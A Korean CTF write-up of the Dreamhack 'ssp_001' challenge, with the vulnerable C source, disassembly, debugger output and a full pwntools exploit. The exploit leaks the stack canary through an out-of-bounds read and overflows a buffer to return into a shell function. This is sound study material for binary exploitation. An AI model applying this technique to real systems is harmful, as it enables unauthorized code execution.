

# [Dreamhack] ssp_001

---

## 전체 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

## 분석

### 보호기법 탐지



- `32bit` 바이너리
- `Canary` 와 `NX` 보호기법이 적용

### 취약점 탐색

- `name_len` 으로 입력할 문자열의 길이를 입력하고
- 해당 문자열의 길이만큼 문자열을 입력할 수 있음 → 버퍼오버플로우를 일으킬 수 있음

```python
 	      	 case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
```

### 익스플로잇 시나리오

1. 카나리 우회
    - 입력한 인덱스에 값을 출력해주는 case를 이용해서 카나리 값을 추출할 수 있을 것 같음

```python
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
```

1. 셸 획득
    - `get_shell` 함수의 주소로 리턴을 overwrite 하면 될 것 같음

## 익스플로잇

---

### 디버깅

- `main` 함수에 전체 어셈블리 코드

```nasm
=> 0x0804872b <+0>:     push   ebp
   0x0804872c <+1>:     mov    ebp,esp
   0x0804872e <+3>:     push   edi
   0x0804872f <+4>:     sub    esp,0x94
   0x08048735 <+10>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048738 <+13>:    mov    DWORD PTR [ebp-0x98],eax
   0x0804873e <+19>:    mov    eax,gs:0x14
   0x08048744 <+25>:    mov    DWORD PTR [ebp-0x8],eax
   0x08048747 <+28>:    xor    eax,eax
   0x08048749 <+30>:    lea    edx,[ebp-0x88]
   0x0804874f <+36>:    mov    eax,0x0
   0x08048754 <+41>:    mov    ecx,0x10
   0x08048759 <+46>:    mov    edi,edx
   0x0804875b <+48>:    rep stos DWORD PTR es:[edi],eax
   0x0804875d <+50>:    lea    edx,[ebp-0x48]
   0x08048760 <+53>:    mov    eax,0x0
   0x08048765 <+58>:    mov    ecx,0x10
   0x0804876a <+63>:    mov    edi,edx
   0x0804876c <+65>:    rep stos DWORD PTR es:[edi],eax
   0x0804876e <+67>:    mov    WORD PTR [ebp-0x8a],0x0
   0x08048777 <+76>:    mov    DWORD PTR [ebp-0x94],0x0
   0x08048781 <+86>:    mov    DWORD PTR [ebp-0x90],0x0
   0x0804878b <+96>:    call   0x8048672 <initialize>
   0x08048790 <+101>:   call   0x80486f1 <menu>
   0x08048795 <+106>:   push   0x2
   0x08048797 <+108>:   lea    eax,[ebp-0x8a]
   0x0804879d <+114>:   push   eax
   0x0804879e <+115>:   push   0x0
   0x080487a0 <+117>:   call   0x80484a0 <read@plt>
   0x080487a5 <+122>:   add    esp,0xc
   0x080487a8 <+125>:   movzx  eax,BYTE PTR [ebp-0x8a]
   0x080487af <+132>:   movsx  eax,al
   0x080487b2 <+135>:   cmp    eax,0x46
   0x080487b5 <+138>:   je     0x80487c6 <main+155>
   0x080487b7 <+140>:   cmp    eax,0x50
   0x080487ba <+143>:   je     0x80487eb <main+192>
   0x080487bc <+145>:   cmp    eax,0x45
   0x080487bf <+148>:   je     0x8048824 <main+249>
   0x080487c1 <+150>:   jmp    0x804887a <main+335>
   0x080487c6 <+155>:   push   0x804896c
   0x080487cb <+160>:   call   0x80484b0 <printf@plt>
   0x080487d0 <+165>:   add    esp,0x4
   0x080487d3 <+168>:   push   0x40
   0x080487d5 <+170>:   lea    eax,[ebp-0x88]
   0x080487db <+176>:   push   eax
   0x080487dc <+177>:   push   0x0
   0x080487de <+179>:   call   0x80484a0 <read@plt>
   0x080487e3 <+184>:   add    esp,0xc
   0x080487e6 <+187>:   jmp    0x804887a <main+335>
   0x080487eb <+192>:   push   0x8048979
   0x080487f0 <+197>:   call   0x80484b0 <printf@plt>
   0x080487f5 <+202>:   add    esp,0x4
   0x080487f8 <+205>:   lea    eax,[ebp-0x94]
   0x080487fe <+211>:   push   eax
   0x080487ff <+212>:   push   0x804898a
   0x08048804 <+217>:   call   0x8048540 <__isoc99_scanf@plt>
   0x08048809 <+222>:   add    esp,0x8
   0x0804880c <+225>:   mov    eax,DWORD PTR [ebp-0x94]
   0x08048812 <+231>:   push   eax
   0x08048813 <+232>:   lea    eax,[ebp-0x88]
   0x08048819 <+238>:   push   eax
   0x0804881a <+239>:   call   0x80486cc <print_box>
   0x0804881f <+244>:   add    esp,0x8
   0x08048822 <+247>:   jmp    0x804887a <main+335>
   0x08048824 <+249>:   push   0x804898d
   0x08048829 <+254>:   call   0x80484b0 <printf@plt>
   0x0804882e <+259>:   add    esp,0x4
   0x08048831 <+262>:   lea    eax,[ebp-0x90]
   0x08048837 <+268>:   push   eax
   0x08048838 <+269>:   push   0x804898a
   0x0804883d <+274>:   call   0x8048540 <__isoc99_scanf@plt>
   0x08048842 <+279>:   add    esp,0x8
   0x08048845 <+282>:   push   0x804899a
   0x0804884a <+287>:   call   0x80484b0 <printf@plt>
   0x0804884f <+292>:   add    esp,0x4
   0x08048852 <+295>:   mov    eax,DWORD PTR [ebp-0x90]
   0x08048858 <+301>:   push   eax
   0x08048859 <+302>:   lea    eax,[ebp-0x48]
   0x0804885c <+305>:   push   eax
   0x0804885d <+306>:   push   0x0
   0x0804885f <+308>:   call   0x80484a0 <read@plt>
   0x08048864 <+313>:   add    esp,0xc
   0x08048867 <+316>:   mov    eax,0x0
   0x0804886c <+321>:   mov    edx,DWORD PTR [ebp-0x8]
   0x0804886f <+324>:   xor    edx,DWORD PTR gs:0x14
   0x08048876 <+331>:   je     0x8048884 <main+345>
   0x08048878 <+333>:   jmp    0x804887f <main+340>
   0x0804887a <+335>:   jmp    0x8048790 <main+101>
   0x0804887f <+340>:   call   0x80484e0 <__stack_chk_fail@plt>
   0x08048884 <+345>:   mov    edi,DWORD PTR [ebp-0x4]
   0x08048887 <+348>:   leave  
   0x08048888 <+349>:   ret
```

- `0x0804872f <+4>:     sub    esp,0x94` 스택에 148Byte 만큼에 공간을 확보하고 있음
- `0x08048744 <+25>:    mov    DWORD PTR [ebp-0x8],eax` 카나리 값을 저장하는 것을 확인

```nasm
=> 0x0804872b <+0>:     push   ebp
   0x0804872c <+1>:     mov    ebp,esp
   0x0804872e <+3>:     push   edi
   0x0804872f <+4>:     sub    esp,0x94
   0x08048735 <+10>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048738 <+13>:    mov    DWORD PTR [ebp-0x98],eax
   0x0804873e <+19>:    mov    eax,gs:0x14
   0x08048744 <+25>:    mov    DWORD PTR [ebp-0x8],eax
```

- 변수를 저장하기위해 스택에 공간을 할당해주는 것을 확인할 수 있음
    - 각 스택에 영역이 어떤 변수인지는 아직 확인할 수 없음

```nasm
   0x0804876e <+67>:    mov    WORD PTR [ebp-0x8a],0x0
   0x08048777 <+76>:    mov    DWORD PTR [ebp-0x94],0x0
   0x08048781 <+86>:    mov    DWORD PTR [ebp-0x90],0x0
   0x0804878b <+96>:    call   0x8048672 <initialize>
   0x08048790 <+101>:   call   0x80486f1 <menu>
```

- 다음 어셈블리 코드를 보면 `0x080487a8 <+125>:   movzx  eax,BYTE PTR [ebp-0x8a]` `[ebp-0x8a]` 에서 값을 가져와 비교를 통해 `je` 동일한 값에 함수로 점프하는 것을 확인할 수 있음
    - 이를 통해 `[ebp-0x8a]` 에 `char select[2]` 변수가 저장되어 있다는 것을 확인할 수 있음

```nasm
   0x080487a8 <+125>:   movzx  eax,BYTE PTR [ebp-0x8a]
   0x080487af <+132>:   movsx  eax,al
   0x080487b2 <+135>:   cmp    eax,0x46
   0x080487b5 <+138>:   je     0x80487c6 <main+155>
   0x080487b7 <+140>:   cmp    eax,0x50
   0x080487ba <+143>:   je     0x80487eb <main+192>
   0x080487bc <+145>:   cmp    eax,0x45
   0x080487bf <+148>:   je     0x8048824 <main+249>
```

- 다음 각 case를 호출하는 어셈블리 코드를 보면 변수가 스택에 어디영역에 저장되어 있는지 확인할 수 있음
    - case F : `0x080487d5 <+170>:   lea    eax,[ebp-0x88]`
        - `ebp-0x88` 이 `char box[0x40]` 이 저장되어 있다는 것을 확인
    - case P : `0x080487f8 <+205>:   lea    eax,[ebp-0x94]`
        - `ebp-0x94` 에 `int idx` 변수가 저장되어 있다는 것을 확인
    - case E : `0x08048831 <+262>:   lea    eax,[ebp-0x90]` , `0x08048859 <+302>:   lea    eax,[ebp-0x48]`
        - `ebp-0x90` 에 `int name_len` 변수가 저장되어 있고
        - `ebp-0x48` 에 `char name[0x40]` 이 저장되어 있다는 것을 알 수 있음

```nasm
   0x080487c6 <+155>:   push   0x804896c
   0x080487cb <+160>:   call   0x80484b0 <printf@plt>
   0x080487d0 <+165>:   add    esp,0x4
   0x080487d3 <+168>:   push   0x40
   0x080487d5 <+170>:   lea    eax,[ebp-0x88]
   0x080487db <+176>:   push   eax
   0x080487dc <+177>:   push   0x0
   0x080487de <+179>:   call   0x80484a0 <read@plt>
   0x080487e3 <+184>:   add    esp,0xc
   0x080487e6 <+187>:   jmp    0x804887a <main+335>
   0x080487eb <+192>:   push   0x8048979
   0x080487f0 <+197>:   call   0x80484b0 <printf@plt>
   0x080487f5 <+202>:   add    esp,0x4
   0x080487f8 <+205>:   lea    eax,[ebp-0x94]
   0x080487fe <+211>:   push   eax
   0x080487ff <+212>:   push   0x804898a
   0x08048804 <+217>:   call   0x8048540 <__isoc99_scanf@plt>
   0x08048809 <+222>:   add    esp,0x8
   0x0804880c <+225>:   mov    eax,DWORD PTR [ebp-0x94]
   0x08048812 <+231>:   push   eax
   0x08048813 <+232>:   lea    eax,[ebp-0x88]
   0x08048819 <+238>:   push   eax
   0x0804881a <+239>:   call   0x80486cc <print_box>
   0x0804881f <+244>:   add    esp,0x8
   0x08048822 <+247>:   jmp    0x804887a <main+335>
   0x08048824 <+249>:   push   0x804898d
   0x08048829 <+254>:   call   0x80484b0 <printf@plt>
   0x0804882e <+259>:   add    esp,0x4
   0x08048831 <+262>:   lea    eax,[ebp-0x90]
   0x08048837 <+268>:   push   eax
   0x08048838 <+269>:   push   0x804898a
   0x0804883d <+274>:   call   0x8048540 <__isoc99_scanf@plt>
   0x08048842 <+279>:   add    esp,0x8
   0x08048845 <+282>:   push   0x804899a
   0x0804884a <+287>:   call   0x80484b0 <printf@plt>
   0x0804884f <+292>:   add    esp,0x4
   0x08048852 <+295>:   mov    eax,DWORD PTR [ebp-0x90]
   0x08048858 <+301>:   push   eax
   0x08048859 <+302>:   lea    eax,[ebp-0x48]
   0x0804885c <+305>:   push   eax
   0x0804885d <+306>:   push   0x0
   0x0804885f <+308>:   call   0x80484a0 <read@plt>
```

- 카나리 값 확인
    1. 32bit 아키텍처에서 카나리 값은 4byte이다.
    2. assembly 마지막 부분에서 참조 연산 DWORD를 통해 4바이트만을 참조한다는 것을 알 수 있다.
       
        ```nasm
           0x0804886c <+321>:   mov    edx,DWORD PTR [ebp-0x8]
           0x0804886f <+324>:   xor    edx,DWORD PTR gs:0x14
        ```
        
    3. 디버깅에서 stack에 주소를 확인하여 카나리 값에 4byte 값만 저장되어 있음을 알 수 있다.
       
        ```nasm
         ► 0 0x8048749 main+30
           1 0xf7da2519 __libc_start_call_main+121
           2 0xf7da25f3 __libc_start_main+147
           3 0x8048581 _start+33
        ─────────────────────────────────────────────────────────────────────────
        pwndbg> x/10wx $ebp-8
        0xffffd070:     0x8df05f00      0xf7ffcb80      0xf7ffd020      0xf7da2519
        0xffffd080:     0x00000001      0xffffd134      0xffffd13c      0xffffd0a0
        0xffffd090:     0xf7fab000      0x0804872b
        ```
        
        ```nasm
        pwndbg> canary
        AT_RANDOM = 0xffffd28b # points to (not masked) global canary value
        Canary    = 0x8df05f00 (may be incorrect on != glibc)
        Thread 1: Found valid canaries.
        00:0000│-2ac 0xffffcdcc ◂— 0x8df05f00
        ```
        
        - `return = 0xf7da2519`
        - `ebp = 0xf7ffd020`
        - `canary = 0x8df05f00`
        - `dummy = 0xf7ffcb80`
    
    ### 전체 스택 구조 시각화
    
    
    

### 익스플로잇 코드 작성

- 카나리 릭
    - 메뉴 `P`를 이용하면 64 이상의 index를 주어 `box` 밑에 있는 값을 출력할 수 있기 때문에 이를 이용해서 카나리 릭을 할 수 있음
    - `box` ~ `canary` 까지의 거리는 128byte니깐 index를 128~131을 주면 카나리 값을 릭할 수 있음
- 버퍼 오버 플로우
    - `name` ~ `RET` 까지의 거리는 80byte이기 때문에
    - `name_size`를 84바이트로 설정하여 payload를 입력하면 `get_shell` 함수의 주소로 리턴값을 설정할 수 있음

### 전체 익스플로잇 코드

```python
from pwn import *

def slog(n, m): 
    return success(': '.join([n, hex(m)]))

# p = remote('host3.dreamhack.games', 22826)
p = process('./ssp_001')
e = ELF('./ssp_001')
context.arch = 'i386'

canary = b''
get_shell = e.symbols['get_shell'] # get_shell function address

for i in range(0x83, 0x7f, -1) : # consider little endian
    p.sendafter(b'> ',b'P') # read -> use sendafter
    p.sendlineafter(b'Element index : ', bytes(str(i),'utf-8')) # scanf -> use sendlineafter
    p.recvuntil(b'is : ')
    canary += p.recv(2)

canary = int(canary,16)
slog("canary", canary)

payload = b'A' * 0x40
payload += p32(canary)
payload += b'B'*4 # dummy
payload += b'C'*4 # ebp
payload += p32(get_shell) # ret -> get_shell

p.sendafter(b'> ', b'E')
p.sendlineafter(b'Name Size : ', bytes(str(len(payload)),'utf-8')) # name_len -> trigger bof
p.sendafter(b'Name : ',payload)
p.interactive()
```